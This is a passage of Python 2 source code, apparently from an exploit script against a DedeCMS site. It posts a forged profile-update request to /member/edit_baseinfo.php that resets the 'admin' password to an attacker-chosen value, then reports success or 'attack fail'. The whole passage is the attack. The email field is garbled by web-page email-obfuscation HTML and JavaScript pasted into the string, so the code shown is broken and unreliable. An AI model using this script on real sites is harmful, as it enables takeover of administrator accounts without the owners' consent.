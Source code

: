         vdcode = raw_input("Please enter the verification code : ")

        data = {"dopost": "save", "uname": "admin", "oldpwd": oldpwd, "userpwd": newpwd, "userpwdok": newpwd,
                "safequestion": "0", "newsafequestion": "0", "sex": "男", "email": "<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="6706030a0e092706030a0e094904080a">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>", "vdcode": vdcode}
        rs = s.post(dede_host + '/member/edit_baseinfo.php', data=data)
        if "成功更新你的基本资料" in  rs.content:
           print "Administrator password modified successfully !!"
           print "The new administrator password is : " + newpwd
        else:
            print "attack fail"

